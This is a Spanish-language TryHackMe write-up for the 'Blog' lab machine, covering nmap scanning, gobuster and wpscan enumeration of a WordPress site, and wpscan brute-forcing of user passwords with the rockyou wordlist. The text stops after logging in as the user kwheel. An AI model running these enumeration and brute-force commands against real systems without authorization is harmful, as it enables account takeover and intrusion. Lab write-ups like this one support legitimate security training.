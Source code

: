 ```yaml
---
title: "Blog"
date: 2023-06-03 00:00:00 +0800
categories: [TryHackMe]
tags: [TryHackMe]
---
```


![BlogMachine](image.png){: width="600"}

<p><center>WriteUp detallado explotando la máquina Blog de la plataforma de TryHackMe</center></p>.

## Reconocimiento

Realizamos un escaneo con nmap para ver los puertos que se encuentran abiertos.

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.93.203 -oG allPorts
```

![ports](image-1.png){: width="600"}

Aplicamos el siguiente comando para ver las versiones que estan corriendos dichos servicios con sus respectivos puertos que se encuentran abiertos y le pasamos un conjunto de script por default de nmap.

```bash
nmap -sCV -p22,80,139,445 10.10.93.203 -oN targeted
```
![sCVersions](image-2.png){: width="600"}

Entramos a la ip de la máquina y vemos la interfaz de la página.

![InterfazWeb](image-3.png)

Vamos a realizar dos escaneos con dos herramientas `gobuster` para ver directorios y `wpscan` para ver si encontramos algo interesante por lo que vemos que se trata de un wordpress.

Asi que realizamos los siguientes comandos

```bash
gobuster dir -u http://blog.thm/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
```

Vemos ciertos directorios y una ruta de login.

![gobuster](image-4.png)

Aplicamos un wpscan

```bash
wpscan --url http://10.10.93.203 --enumerate u,vp,dbe,at,cb --detection-mode aggressive
```

![wpscan](image-5.png)

Vemos que nos identifica dos usuarios con el nombre de `kwheel` y `bjoel`. Entonces podemos tratar de conseguir la contraseña a través de fuerza bruta.

```bash
wpscan --url http://blog.thm -U kwheel -P /usr/share/wordlists/rockyou.txt
wpscan --url http://blog.thm -U bjoel -P /usr/share/wordlists/rockyou.txt
```

![kwheelPass](image-6.png)

Dado que gracias a fuerza bruta nos da la contraseña, vamos a loguearnos 
Entramos con la cuenta de kwheel

![loginKwheel](image-7.png)
